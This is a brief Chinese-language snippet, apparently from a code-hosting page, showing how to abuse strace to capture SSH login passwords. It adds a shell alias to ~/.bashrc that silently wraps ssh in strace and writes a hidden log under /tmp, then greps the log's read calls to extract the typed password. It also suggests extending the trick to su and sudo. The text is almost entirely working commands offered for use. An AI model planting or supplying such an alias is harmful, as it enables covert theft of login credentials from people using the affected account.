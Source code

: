 

strace 本身其实是一个非常好用的系统调用跟踪工具,运维们可以通过它快速锁定问题的根源,但,恰巧我们也可以通过这种方式来跟踪任何进程数据,比如ssh,su,sudo,这里以跟踪ssh登陆密码为例,大家可自行脑洞更多其它用法,关于strace自身的选项作用,请man strace。

```bash

vi ~/.bashrc

alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -s 2048 ssh'
```


```bash
ssh root@10.0.83.4 -p 22
```



```bash
cat .sshpwd-17May051494975433.log  | egrep "(read\(4).*\)"
```


strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -s 2048 ls